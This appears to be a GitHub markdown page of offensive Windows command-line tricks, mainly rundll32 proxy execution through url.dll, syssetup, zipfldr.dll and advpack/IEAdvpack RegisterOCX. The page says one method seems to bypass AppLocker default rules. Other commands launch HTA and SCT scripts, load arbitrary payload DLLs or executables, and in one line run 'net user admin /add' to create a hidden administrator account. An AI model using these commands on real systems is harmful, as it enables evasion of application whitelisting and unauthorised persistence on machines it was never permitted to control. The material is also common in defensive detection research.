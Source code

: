 # Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

```MS-DOS
&- rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```MS-DOS

&- InSide INFScript By @subTee Regsvr32 in INFScript
&- Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415
-& Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

# rundll32
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```

You looking out for that "RegisterOCX" function in IEAdvpack.dll?  

```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```
